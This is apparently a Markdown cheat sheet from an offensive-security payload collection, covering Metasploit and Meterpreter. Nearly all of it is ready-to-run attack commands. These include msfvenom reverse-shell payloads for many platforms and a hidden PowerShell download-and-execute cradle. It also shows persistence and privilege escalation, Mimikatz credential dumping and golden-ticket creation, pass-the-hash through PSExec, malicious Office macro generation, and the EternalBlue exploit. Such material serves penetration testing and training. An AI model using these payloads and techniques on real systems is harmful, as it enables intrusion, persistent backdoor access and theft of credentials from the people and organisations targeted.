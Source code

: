 # Metasploit

## Summary

* [Installation](#installation)
* [Sessions](#sessions)
* [Background handler](#background-handler)
* [Meterpreter - Basic](#meterpreter---basic)
    * [Generate a meterpreter](#generate-a-meterpreter)
    * [Meterpreter Webdelivery](#meterpreter-webdelivery)
    * [Get System](#get-system)
    * [Persistence Startup](#persistence-startup)
    * [Network Monitoring](#network-monitoring)
    * [Portforward](#portforward)
    * [Upload / Download](#upload---download)
    * [Execute from Memory](#execute-from-memory)
    * [Mimikatz](#mimikatz)
    * [Pass the Hash - PSExec](#pass-the-hash---psexec)
    * [Use SOCKS Proxy](#use-socks-proxy)
* [Scripting Metasploit](#scripting-metasploit)
* [Multiple transports](#multiple-transports)
* [Best of - Exploits](#best-of---exploits)
* [References](#references)

## Installation

```powershell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

or docker

```powershell
sudo docker run --rm -it -p 443:443 -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit
```

## Sessions

```powershell
CTRL+Z   -> Session in Background
sessions -> List sessions
sessions -i session_number -> Interact with Session with id
sessions -u session_number -> Upgrade session to a meterpreter
sessions -u session_number LPORT=4444 PAYLOAD_OVERRIDE=meterpreter/reverse_tcp HANDLER=false-> Upgrade session to a meterpreter

sessions -c cmd           -> Execute a command on several sessions
sessions -i 10-20 -c "id" -> Execute a command on several sessions
```

## Background handler

ExitOnSession : the handler will not exit if the meterpreter dies.

```powershell
screen -dRR
sudo msfconsole

use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false

generate -o /tmp/meterpreter.exe -f exe
to_handler

[ctrl+a] + [d]
```

## Meterpreter - Basic

### Generate a meterpreter

```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
```

### Meterpreter Webdelivery

Set up a Powershell web delivery listening on port 8080.

```powershell
use exploit/multi/script/web_delivery
set TARGET 2
set payload windows/x64/meterpreter/reverse_http
set LHOST 10.0.0.1
set LPORT 4444
run
```

```powershell
powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/rYDPPB');
```


### Get System

```powershell
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Persistence Startup

```powershell
OPTIONS:

-A        Automatically start a matching exploit/multi/handler to connect to the agent
-L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
-P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
-S        Automatically start the agent on boot as a service (with SYSTEM privileges)
-T <opt>  Alternate executable template to use
-U        Automatically start the agent when the User logs on
-X        Automatically start the agent when the system boots
-h        This help menu
-i <opt>  The interval in seconds between each connection attempt
-p <opt>  The port on which the system running Metasploit is listening
-r <opt>  The IP of the system running Metasploit listening for the connect back

meterpreter > run persistence -U -p 4242
```

### Network Monitoring

```powershell
# list interfaces
run packetrecorder -li

# record interface n°1
run packetrecorder -i 1
```

### Portforward

```powershell
portfwd add -l 7777 -r 172.17.0.2 -p 3006
```

### Upload / Download

```powershell
upload /path/in/hdd/payload.exe exploit.exe
download /path/in/victim
```

### Execute from Memory

```powershell
execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```

### Mimikatz

```powershell
load mimikatz
mimikatz_command -f version
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::wdigest
mimikatz_command -f sekurlsa::searchPasswords
mimikatz_command -f sekurlsa::logonPasswords full
```

```powershell
load kiwi
creds_all
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
```

### Pass the Hash - PSExec

```powershell
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > exploit
SMBDomain             WORKGROUP                                                          no        The Windows domain to use for authentication
SMBPass               598ddce2660d3193aad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf  no        The password for the specified username
SMBUser               Lambda                                                             no        The username to authenticate as
```

### Use SOCKS Proxy

```powershell
setg Proxies socks4:127.0.0.1:1080
```

## Scripting Metasploit

Using a `.rc file`, write the commands to execute, then run `msfconsole -r ./file.rc`.
Here is a simple example to script the deployment of a handler an create an Office doc with macro.

```powershell
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 4646
set ExitOnSession false
exploit -j -z


use exploit/multi/fileformat/office_word_macro 
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.10.14.22
set LPORT 4646
exploit
```

## Multiple transports

```powershell
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

Then, in AddTransports.ps1

```powershell
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http(s)://<host>:<port>/<luri> -RetryWait 10 -RetryTotal 30
```

## Best of - Exploits

* MS17-10 Eternal Blue - `exploit/windows/smb/ms17_010_eternalblue`
* MS08_67 - `exploit/windows/smb/ms08_067_netapi`

## References

* [Multiple transports in a meterpreter payload - ionize](https://ionize.com.au/multiple-transports-in-a-meterpreter-payload/)
* [Creating Metasploit Payloads - Peleus](https://netsec.ws/?p=331)
